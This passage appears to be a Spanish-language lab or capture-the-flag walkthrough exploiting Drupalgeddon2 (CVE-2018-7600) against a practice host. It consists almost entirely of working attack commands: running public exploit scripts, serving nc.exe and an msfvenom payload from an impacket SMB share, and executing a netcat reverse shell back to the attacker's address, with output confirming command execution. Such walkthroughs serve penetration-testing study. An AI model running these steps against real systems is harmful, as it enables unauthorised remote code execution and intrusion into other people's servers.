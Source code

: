 ```bash
#OUTPUT
whoami
nt authority\iusr
```

## DRUPALGEDDON2 + IMPACKET-SMBSERVER + NC

En esta ocasión vamos a realizar la intrusión por medio de la ejecución remota de comandos de `drupalgeddon2`, junto con un servidor `smb` activo para obtener una reverse shell por medio de la utilidad `nc.exe`, por lo que debemos tener la utilidad donde tenemos activos los recursos compartidos.

```bash
cp /usr/share/sqlninja/apps/nc.exe .
```

```bash
ruby 44449.rb http://10.10.10.9
```

```bash
sudo impacket-smbserver smbFolder $(pwd)
```

```bash
rlwrap nc -lvnp 4564
```

```bash
drupalgeddon2>> \\10.10.14.2\smbFolder\nc.exe -e cmd.exe 10.10.14.2 4564
```

```bash
#OUTPUT
whoami
nt authority\iusr
```

## CARGA DE REVERSE POR CVE-2018-7600 + IMPACKET-SMBSERVER

Para este escenario hacemos la carga por `smb` y ejecución de la reverse shell generada con `msfvenom` por medio de `drupa7-CVE-2018-7600.py`.

```bash
sudo impacket-smbserver smbFolder $(pwd)
```

```bash
rlwrap nc -lvnp 4564
```

```bash
python3 drupa7-CVE-2018-7600.py http://10.10.10.9 -c "\\\\10.10.14.13\smbFolder\rev.exe"
```

```bash
#OUTPUT
whoami
nt authority\iusr
```
